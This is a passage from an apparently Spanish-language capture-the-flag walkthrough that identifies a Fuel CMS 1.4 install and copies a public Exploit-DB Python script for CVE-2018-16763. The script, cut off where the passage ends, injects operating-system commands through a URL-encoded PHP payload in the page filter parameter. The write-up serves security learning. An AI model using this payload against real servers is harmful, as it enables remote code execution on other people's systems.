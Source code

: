 ![](/assets/posts/20220920/img02.png)

Lo que tenemos aquí es una implementación de **Fuel CMS** en la versión **1.4**.

Toca buscar si exite algún exploit conocido para nuestro nuevo amigo. Para ello nos vamos a Exploit Database y encontramos [esto](https://www.exploit-db.com/exploits/47138): un script en python que nos permite ejecutar código remoto.

Lo copiamos y lo guardamos en nuestro directorio de trabajo con el nombre `ignite.py`&nbsp;.


```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
```